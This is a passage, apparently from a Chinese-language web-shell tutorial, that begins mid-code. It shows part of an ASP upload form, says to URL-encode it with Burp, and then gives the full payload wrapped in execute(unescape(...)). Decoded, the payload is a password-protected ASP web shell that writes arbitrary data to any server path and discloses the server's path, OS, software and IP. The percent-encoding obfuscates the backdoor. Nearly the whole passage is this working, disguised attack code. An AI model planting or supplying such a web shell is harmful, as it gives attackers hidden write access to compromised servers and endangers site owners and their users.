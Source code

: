 ```
response.write("IP:"&Request.ServerVariables("LOCAL_ADDR"))
response.write("<br>")
response.write("")
response.write("<textarea name=da cols=50 rows=10 width=30></textarea>")
response.write("<br>")
response.write("<input type=submit value=save>")
response.write("</form>")
end if
```

然后扔到burp里进行url编码

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900427560-1640f0f9-ef11-4a7f-9e82-09e51ceff7eb.png)

然后外层包裹上执行代码

```
<%
execute (unescape("%6f%6e%20%65%72%72%6f%72%20%72%65%73%75%6d%65%20%6e%65%78%74%0a%20%20%69%66%20%72%65%71%75%65%73%74%28%22%70%61%73%73%22%29%3d%22%67%22%20%74%68%65%6e%0a%20%20%73%65%73%73%69%6f%6e%28%22%70%77%22%29%3d%22%67%6f%22%0a%20%20%65%6e%64%20%69%66%0a%69%66%20%73%65%73%73%69%6f%6e%28%22%70%77%22%29%3c%3e%22%67%6f%22%20%74%68%65%6e%20%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%63%65%6e%74%65%72%3e%3c%62%72%3e%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%27%20%6d%65%74%68%6f%64%3d%27%70%6f%73%74%27%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%69%6e%70%75%74%20%6e%61%6d%65%3d%27%70%61%73%73%27%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%20%73%69%7a%65%3d%27%31%30%27%3e%20%3c%69%6e%70%75%74%20%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%74%79%70%65%3d%27%73%75%62%6d%69%74%27%20%76%61%6c%75%65%3d%27%31%32%33%27%3e%3c%2f%63%65%6e%74%65%72%3e%22%29%0a%65%6c%73%65%0a%0a%73%65%74%20%66%73%6f%3d%73%65%72%76%65%72%2e%63%72%65%61%74%65%6f%62%6a%65%63%74%28%22%73%63%72%69%70%74%69%6e%67%2e%66%69%6c%65%73%79%73%74%65%6d%6f%62%6a%65%63%74%22%29%0a%70%61%74%68%3d%72%65%71%75%65%73%74%28%22%70%61%74%68%22%29%0a%69%66%20%70%61%74%68%3c%3e%22%22%20%74%68%65%6e%0a%64%61%74%61%3d%72%65%71%75%65%73%74%28%22%64%61%22%29%0a%73%65%74%20%64%61%3d%66%73%6f%2e%63%72%65%61%74%65%74%65%78%74%66%69%6c%65%28%70%61%74%68%2c%74%72%75%65%29%0a%64%61%2e%77%72%69%74%65%20%64%61%74%61%0a%69%66%20%65%72%72%3d%30%20%74%68%65%6e%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%79%65%73%22%29%0a%65%6c%73%65%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%6e%6f%22%29%0a%65%6e%64%20%69%66%0a%65%72%72%2e%63%6c%65%61%72%0a%65%6e%64%20%69%66%0a%64%61%2e%63%6c%6f%73%65%0a%73%65%74%20%64%61%3d%6e%6f%74%68%69%6e%67%0a%73%65%74%20%66%6f%73%3d%6e%6f%74%68%69%6e%67%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%27%20%6d%65%74%68%6f%64%3d%70%6f%73%74%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%69%6e%70%75%74%20%74%79%70%65%3d%74%65%78%74%20%6e%61%6d%65%3d%70%61%74%68%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%62%72%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%70%61%74%68%3a%22%26%73%65%72%76%65%72%2e%6d%61%70%70%61%74%68%28%72%65%71%75%65%73%74%2e%73%65%72%76%65%72%76%61%72%69%61%62%6c%65%73%28%22%73%63%72%69%70%74%5f%6e%61%6d%65%22%29%29%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%62%72%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%6f%73%3a%22%26%52%65%71%75%65%73%74%2e%53%65%72%76%65%72%56%61%72%69%61%62%6c%65%73%28%22%4f%53%22%29%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%62%72%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%57%45%42%3a%22%26%52%65%71%75%65%73%74%2e%53%65%72%76%65%72%56%61%72%69%61%62%6c%65%73%28%22%53%45%52%56%45%52%5f%53%4f%46%54%57%41%52%45%22%29%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%62%72%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%49%50%3a%22%26%52%65%71%75%65%73%74%2e%53%65%72%76%65%72%56%61%72%69%61%62%6c%65%73%28%22%4c%4f%43%41%4c%5f%41%44%44%52%22%29%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%62%72%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%74%65%78%74%61%72%65%61%20%6e%61%6d%65%3d%64%61%20%63%6f%6c%73%3d%35%30%20%72%6f%77%73%3d%31%30%20%77%69%64%74%68%3d%33%30%3e%3c%2f%74%65%78%74%61%72%65%61%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%62%72%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%69%6e%70%75%74%20%74%79%70%65%3d%73%75%62%6d%69%74%20%76%61%6c%75%65%3d%73%61%76%65%3e%22%29%0a%72%65%73%70%6f%6e%73%65%2e%77%72%69%74%65%28%22%3c%2f%66%6f%72%6d%3e%22%29%0a%65%6e%64%20%69%66"))
%>
```
